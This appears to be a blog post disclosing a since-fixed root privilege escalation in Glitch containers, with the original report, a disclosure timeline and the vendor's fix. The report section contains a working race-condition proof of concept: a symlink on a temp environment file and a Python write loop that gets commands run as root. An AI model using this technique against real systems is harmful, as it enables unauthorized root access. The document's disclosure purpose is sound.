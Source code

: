 ```yaml
---
date: Mon Aug 10 2020 17:42:18 -0700 (Pacific Daylight Time)
qualitative_time: 
title: Root access on Glitch
previous_teaser: List of salads that you can't put croutons in
previous_first: true
has_highlighting: true
---
```

In 2019, I discovered a way to get root access in the project containers on [Glitch](https://glitch.com/).
This issue is now fixed.

Glitch is a Node.js-focused web development environment and hosting service.
Users normally aren't allowed to have root access, with a staff member describing in a group message to me on their support forum:

> Root access to the container is something we prevent for a number of reasons, security among them.

I reported this finding to the Glitch staff.
At the time, Glitch had been getting rid of the old Fog Creek materials, the instructions to report a security vulnerability along with it.
They had not put up new instructions.

# A copy of the report

Here's a copy of the report I sent to the staff.

## vulnerability info

a big part of the leadup to wetty's user shell is run as root. from top:
```
    8 root      20   0    4240    780    716 S   0.0  0.0   0:00.00      `- runsv wetty
   11 root      20   0     212      4      0 S   0.0  0.0   0:00.00          `- /usr/bin/dumb-init /bin/bash ./run
   13 root      20   0   19696   2992   2764 S   0.0  0.0   0:00.00              `- /bin/bash ./run
   15 root      20   0    4504    656    588 S   0.0  0.0   0:00.00                  `- /bin/sh /opt/nvm/versions/node/v10/bin/wetty --port 1084 --command /etc/service/wetty/+ 
   26 root      20   0 1012088  53248  27044 S   0.0  0.8   0:03.22                      `- /opt/nvm/versions/node/v10/bin/node /opt/nvm/versions/node/v10/bin/../pnpm-global/+ 
24828 root      20   0   19716   3168   2904 S   0.0  0.1   0:00.00                          `- /bin/bash /etc/service/wetty/wetty-command.sh
24833 root      20   0   51004   3308   2900 S   0.0  0.1   0:00.00                              `- su --preserve-environment --login app
24834 app       20   0   19952   3652   3128 S   0.0  0.1   0:00.00                                  `- -su
25475 app       20   0   40424   3396   2908 R   0.0  0.1   0:00.01                                      `- top
```

from `/etc/service/wetty/wetty-command.sh`:
```sh
curl -s localhost:1083/env > /tmp/glitch-project-env 2> /dev/null
set -a && source /tmp/glitch-project-env &> /dev/null && set +a
```

there's a race condition here. we can make `/tmp/glitch-project-env` a symlink to a file we own. then, if we can sneak in a write between the `curl` and the `source`, our modified glitch-project-env will run as root

---

## sample exploitation with dummy payload

in `racer/r.py`:
```py
import os

i = 0
while True:
  os.lseek(3, 0, os.SEEK_SET)
  os.write(3, 'id >/app/my-id.txt # %d ' % i)
  i += 1
```

```sh
ln -s /tmp/ours /tmp/glitch-project-env
python racer/r.py 3>/tmp/ours
# open a new terminal
```

then check results in `/app`:
```
app@...:~ 06:06 
$ ls -l /app
...
-rw-r--r-- 1 root root   39 Apr 27 05:26 my-id.txt
drwxrwxr-x 2 app  app  1024 Apr 27 05:45 racer

app@...:~ 06:09 
$ cat /app/my-id.txt
uid=0(root) gid=0(root) groups=0(root)
```

# Notes

I don't recall why it matters that the attacker put a symlink where the environment file would be written.
Maybe there had been some other code nearby that would fail otherwise.

# Timeline

**2019/04/26** I find this vulnerability.
I reach out to their general support email address.
There is no response.

**2019/04/27** I reach out over group message on their support forum.
There is no response.

**2019/04/30** A staff member C responds, and we work through some ways I might be able submit the report.
In the end, sending the report to the group message works.
I post the report from above.
C tells me:

> I’ll put together some context and get this info back to the rest of the team. I can’t commit to any particular timeline or response, but I’ll make sure we get some eyes on it as soon as possible.

**2019/05/08** I ask if the team has taken a look.
There is no response.

**2019/05/20** I ask if C has put together some context.
There is no response.

**2019/06/05** I ask if any staff still visit the support forum.
C responds that they haven't gotten to this yet.

**2019/11/19** I remember this report and nag them.
There is no response.

**2019/12/02** C responds that they'll get to it this week.

**2020/04/03** I remember this report and nag them.
There is no response.

**2020/04/27** I notice that Glitch now has an official statement directing people to send reports to their general support email address and that a ticket system handles those emails.
I open a ticket for this vulnerability, referencing the group message thread.
There is only an automated response.

**2020/06/05** I complain on their support forum about the lack of response.
Another staff member T shows me how to view my tickets a website, but there is no update to the ticket about this vulnerability.

**2020/07/22** Another staff member P says on a Discord server to send them a private message if a security vulnerability report has not gotten a response.
I message P with a reference to the ticket.
There is no response.

**2020/08/03** I ask on the ticket if I can disclose the vulnerability.

**2020/08/04** T tells me to fllow up with C over the group message thread.
I ask on the group message thread if I can disclose the vulnerability.

**2020/08/05** C tells me to wait until tomorrow for a response.

**2020/08/06** C says they implemented a fix that will be deployed soon.

**2020/08/10** C says the fix should be deployed.

# Glitch's fix

A new version of the `wetty-command.sh` script now uses process substitution instead of a temporary file.

```sh
set -a && source <(curl -s localhost:1083/env) &> /dev/null && set +a
```

# Discussion

## Recommendations

Still a lot of work is done as root, in the "watcher," "wetty," and "ot-storage" programs.
These are thousands of lines of JavaScript code, along with hundreds of megabytes of node_modules.
They might be a good place to look for more vulnerabilities.

I'm not sure how much of all that must run as root.
I haven't looked deeply into those programs, but they as far as I know, they manipulate user-owned files and serve on non-privileged ports.
If Glitch can find the energy to make major changes to the implementation, I'd suggest they minimize the amount of code running as root.

## Support tooling issues

Glitch's support ticket system is a pain to use, although it didn't result in me missing any communications about this vulnerability.
Some magical things about the email headers aren't set up right, and staff responses are classified as spam.
Replying to a ticket sometimes creates a new ticket instead.
Staff members sometimes merge these extraneous replies into existing threads.
Sometimes they don't.
When they merge them, it leaves the extraneous ticket around.
Sometimes staff merge a reply with the wrong ticket.
T explains,

> Within HappyFox (our ticketing platform provider), support request tickets are marked “Closed” after every support team member’s response.
> That way, we are alerted when the person who created the support request responds.

I'm not convinced that this is right.

## Long turnaround

It was long.
C took reponsibility for the delays and reflected on what they and Glitch could have done to address the report more quickly.
I appreciate that Glitch was able to implement a fix quickly when I expressed that I would like to publish it, i.e., in this article.

